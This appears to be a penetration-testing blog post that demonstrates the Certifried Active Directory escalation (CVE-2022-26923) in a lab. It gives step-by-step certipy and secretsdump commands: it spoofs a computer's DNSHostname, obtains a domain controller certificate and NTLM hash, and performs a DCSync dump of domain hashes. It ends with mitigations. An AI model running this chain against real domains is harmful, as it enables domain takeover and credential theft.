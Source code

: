 ```yaml
---
layout: post
title:  "AD Pentesting | Domain Privesc - Certifried (CVE-2022-26923)"
---
```


![Certifried-diagram](/assets/Certifried/Certifried-diagram.jpg)

# The Attack In Brief
1. AD Certificates can be used for authentication.
2. Certificates can be generated from **templates** in a **Certificate Signing Request** (CSR).
3. There are **two** types of templates available in **ADCS** by default: User and Computer. They are **accessible to anyone** in the `Domain Users` or `Domain Computers` groups.
4. The certificates they generate **allow for authentication.**
5. *When generating a certificate for a computer object*, the computer template will check that computer's `DNSHostname` property and **will generate the certificate based on it**.
6. **Meaning:** *if the computer's* `DNSHostname` *is a Domain Controller's,* you will get a certificate for that **Domain Controller!**
7. *By default,* **any authenticated user** can join up to 10 computers to the domain.
8. *When a user joins a computer to the domain,* he will have the permission to modify that computer's `DNSHostname` property.
9. *Combining the points above,* any authenticated user can add a computer to the domain and alter its `DNSHostname` to that of a **Domain Controller** and get a certificate as that domain controller.
10. *Using that certificate,* the user *can obtain* the computer account's **NTLM** hash which can be used to *request a full copy of the domain's hashes* (a.k.a **perform a `DCSync` attack**).

---

# Tools Needed
1. [Certipy](https://github.com/ly4k/Certipy)
2. [Impacket](https://github.com/SecureAuthCorp/impacket)

---

# Lab Setup And Conditions
## 1. Domain Controller with ADCS Role installed [DC.LAB.Local: 192.168.126.129]
![dc-with-adcs-installed](/assets/Certifried/dc-with-adcs-installed.jpg)

## 2. Kali [192.168.145.128]
![kali-machine](/assets/Certifried/kali-machine.jpg)

## 3. Normal User Account (No Special Privileges)
![normal-ad-user](/assets/Certifried/normal-ad-user.jpg)

---

# Attack Demonstration
## 1. Joining A Machine Account to The Domain with A Spoofed DNSHostname
**Command:** `certipy account create <DOMAIN_FQDN>/<AD_USER>@<DC_IP> -user '<NEW_COMPUTER_NAME>' -dns <DC_FQDN>`

![creating-computer-with-spoofed-dns-hostname](/assets/Certifried/creating-computer-with-spoofed-dns-hostname.jpg)

![proof-of-dns-hostname-spoofing](/assets/Certifried/proof-of-dns-hostname-spoofing.jpg)

## 2. Requesting A Domain Controller's Certificate
we must first obtain the certificate authority's name.

This can be done by visiting the `/certsrv` web directory on the server with ADCS installed and authenticating.

![finding-out-the-ca-name](/assets/Certifried/finding-out-the-ca-name.jpg)

**Command:** `certipy req -dc-ip <DC_IP> <DOMAIN_FQDN>/'<ADDED_COMPUTER_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -ca <CA_NAME> -template Machine`

Password = the same password generated from the computer creation in the previous step

![requesting-dc-cert](/assets/Certifried/requesting-dc-cert.jpg)

## 3. Using the Domain Controller's Certificate To Get its NTLM Hash
**Command:** `certipy auth -pfx <GENERATED_PFX_CERTIFICATE>`

![got-nt-hash-for-dc](/assets/Certifried/got-nt-hash-for-dc.jpg)

## 4. Performing DCSync As The Impersonated Domain Controller
**Command:** `secretsdump.py -just-dc <DOMAIN_FQDN>/'<DC_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -hashes :<RETRIEVED_HASH>`

![dc-sync-with-dc-ntlm-hash](/assets/Certifried/dc-sync-with-dc-ntlm-hash.jpg)

---

# Mitigation
1. Applying the patch released by Microsoft [here](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923).
2. Reducing certificate template permissions.
3. Reducing the default user's machine quota to zero. Only Administrators should have this privilege.

---

# References and Credits
- **Will Schroeder** and **Lee Christensen** who wrote the paper that started it all [here](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf)
- [Oliver Lyak](https://twitter.com/ly4k_) who discovered, reported and explained the vulnerability [here](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) as well as created the `Certipy` tool.
- **SecureAuthCorp** for the awesome **Impacket** scripts of course :D